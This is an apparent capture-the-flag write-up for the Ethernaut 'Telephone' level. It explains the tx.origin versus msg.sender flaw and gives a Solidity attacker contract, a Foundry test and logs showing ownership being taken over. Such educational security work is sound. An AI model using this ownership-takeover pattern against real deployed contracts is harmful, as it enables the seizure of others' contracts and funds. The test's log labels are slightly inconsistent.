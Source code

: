 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](ethernaut.openzeppelin.com)

# What You're Supposed to Do?

in `04-Telephone` Challenge, You Should Try To find a Way to Take Ownership of the Contract as Attacker.

`04-Telephone` Challenge Link: [https://ethernaut.openzeppelin.com/level/0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446](https://ethernaut.openzeppelin.com/level/0x2C2307bb8824a0AbBf2CC7D76d8e63374D2f8446)


# How did i Complete This Challenge?

Lets Take a Look At `changeOwner` function:

```javascript
    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
```

First We have to Understand the Difference between `msg.sender` and `tx.origin`:

`A` is an EOA account.
`B` is An Contract.
`C` is An Another Contract.

`msg.sender` represents the caller of the current function and `tx.origin` represents the initial external account (EOA) that started the transaction. So if `A` calls `B` Contract and then `B` calls the `C` Contract, in Contract `C`, the `msg.sender` is `B` and `tx.origin` is `A`.

lets take a Look at if Statement of `changeOwner` function:

```javascript
    if (tx.origin != msg.sender) {
                owner = _owner;
    }
```

What Attacker Will Do is To Create Contract that Calls the `changeOwner` function, Now the Result of `if (tx.origin != msg.sender)` will be `true`.

Something Like this:

```javascript
    contract AttackerContract {

        Telephone telephone;

        constructor(Telephone _telephone) {
            telephone = _telephone;
        }

        function takeOwnershipAttack(address _newOwner) external {
            telephone.changeOwner(_newOwner);
        }

    }
```

Then i Wrote a Test to Take Ownership of `Telephone.sol` with utilizing the `AttackerContract` Contract.

```javascript
    function testTakeOverTheOwnership() external {
        vm.startPrank(owner);
        assertEq(telephone.owner(), owner);
        console2.log("Owner Address: ", owner);
        console2.log("Attacker Address: ", attacker);
        vm.stopPrank();

        vm.startPrank(attacker);
        console2.log("Telephone Contract Owner Before the Attack: ", telephone.owner());
        AttackerContract attackerContract = new AttackerContract(telephone);
        attackerContract.takeOwnershipAttack(attacker);
        console2.log("Telephone Contract Owner Before the Attack: ", telephone.owner());
        vm.stopPrank();
        assertEq(attacker, telephone.owner());
    }
```

You can Run this Test With Command Below in Your Terminal: (Required to Have Foundry Installed.)

```javascript
    forge test --match-test testTakeOverTheOwnership -vvvv
```

Take a Look At `Logs`:

```javascript
    Logs:
        Owner Address:  0x7c8999dC9a822c1f0Df42023113EDB4FDd543266
        Attacker Address:  0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
        Telephone Contract Owner Before the Attack:  0x7c8999dC9a822c1f0Df42023113EDB4FDd543266
        Telephone Contract Owner After the Attack:  0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e
```